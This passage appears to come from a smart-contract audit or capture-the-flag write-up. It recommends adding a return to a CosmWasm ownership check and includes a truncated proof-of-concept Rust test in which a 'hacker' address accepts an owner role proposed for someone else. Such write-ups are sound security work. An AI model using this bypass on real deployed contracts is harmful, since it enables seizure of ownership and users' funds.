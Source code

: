 ### Recommendation

This can be fixed by adding a return statement inside the check above, like this:
```rust
    if state.proposed_owner != Some(info.sender.clone()) {
        return Err(ContractError::Unauthorized {});
    }
```

### Proof of concept

```rust
    #[test]
    fn expressive_lesson() {
        use cosmwasm_std::{CosmosMsg, BankMsg};
        let (mut app, contract_addr) = proper_instantiate();

        // Initial state
        let state: State = app
            .wrap()
            .query_wasm_smart(contract_addr.clone(), &QueryMsg::State {})
            .unwrap();

        assert_eq!(
            state,
            State {
                current_owner: Addr::unchecked(ADMIN),
                proposed_owner: None,
            }
        );

        // User 1 deposit
        app.execute_contract(
            Addr::unchecked(USER1),
            contract_addr.clone(),
            &ExecuteMsg::Deposit {},
            &[coin(10_000, DENOM)],
        )
        .unwrap();

        // User 2 deposit
        app.execute_contract(
            Addr::unchecked(USER2),
            contract_addr.clone(),
            &ExecuteMsg::Deposit {},
            &[coin(8_000, DENOM)],
        )
        .unwrap();

        // Admin wants to give new_owner role to "new_owner"
        app.execute_contract(
            Addr::unchecked(ADMIN),
            contract_addr.clone(),
            &ExecuteMsg::ProposeNewOwner {
                new_owner: "new_owner".to_string(),
            },
            &[],
        )
        .unwrap();

        // "hacker" swoops in and accepts the role instead
        app.execute_contract(
            Addr::unchecked("hacker"),
            contract_addr.clone(),
```